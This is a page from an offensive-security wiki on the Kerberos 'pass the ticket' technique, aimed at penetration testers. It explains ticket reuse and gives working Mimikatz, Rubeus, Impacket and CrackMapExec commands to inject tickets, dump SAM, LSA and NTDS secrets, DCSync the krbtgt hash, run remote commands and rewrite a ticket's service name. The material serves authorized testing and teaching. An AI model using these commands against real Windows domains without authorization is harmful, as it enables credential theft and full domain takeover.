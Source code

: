 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
---
```


# Pass the ticket

## Theory

There are ways to come across ([cached Kerberos tickets](../credentials/dumping/cached-kerberos-tickets.md)) or forge ([overpass the hash](ptk.md), [silver ticket](forged-tickets.md#silver-ticket) and [golden ticket](forged-tickets.md#golden-ticket) attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass the ticket](ptt.md). Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems).&#x20;

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

{% tabs %}
{% tab title="UNIX-like" %}
Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
{% endtab %}

{% tab title="Windows" %}
The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

```bash
Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```

It is then possible to list the tickets in memory using the `klist` command.
{% endtab %}
{% endtabs %}

### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

{% tabs %}
{% tab title="Credentials dumping" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)).

```bash
crackmapexec smb $TARGETS -k --sam
crackmapexec smb $TARGETS -k --lsa
crackmapexec smb $TARGETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)).

```bash
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}

{% tab title="Command execution" %}
Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts (Python) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -k -x whoami
crackmapexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ([download](https://live.sysinternals.com)) can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```
{% endtab %}
{% endtabs %}

### Modifying the SPN

When requesting access to a service, a Service Ticket is used. In contains enough information about the user to allow the destination service to decide to grant access or not, without asking the Domain Controller. These information are stored in a protected blob inside the ST called PAC (Privilege Attribute Certificate). In theory, the user requesting access can't tamper with that PAC.

Another information stored in the ST, outside of the PAC, and unprotected, called `sname`, indicates what service the ticket is destined to be used for. This information is basically the SPN (Service Principal Name) of the target service. It's split into two elements: the service class, and the hostname.

Their are multiple service classes for multiple service types (LDAP, CIFS, HTTP and so on) (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)). The problem here is that since the SPN is not protected, there are scenarios (e.g. services configured for [constrained delegations](delegations/constrained.md)) where the service class can be modified in the ticket, allowing attackers to have access to other types of services.

{% tabs %}
{% tab title="UNIX-like" %}
This technique is implemented and attempted by default in all [Impacket](https://github.com/SecureAuthCorp/impacket) scripts when doing pass-the-ticket (Impacket tries to change the service class to something else, and calls this "AnySPN").&#x20;

Impacket's tgssub.py script can also be used for manual manipulation of the service name value. _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding this script is pending._

```bash
tgssub.py -in ticket.ccache -out newticket.ccache -altservice "cifs/target"
```
{% endtab %}

{% tab title="Windows" %}
With [Rubeus](https://github.com/GhostPack/Rubeus), it can be conducted by supplying the `/altservice` flag when using the `s4u` or the `tgssub` modules and the whole SPN can be changed (service class and/or hostname).

```powershell
Rubeus.exe tgssub /altservice:cifs /ticket:"base64 | ticket.kirbi"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secureauth.com/blog/kerberos-delegation-spns-and-more" %}
Understand the AnySPN technique
{% endembed %}
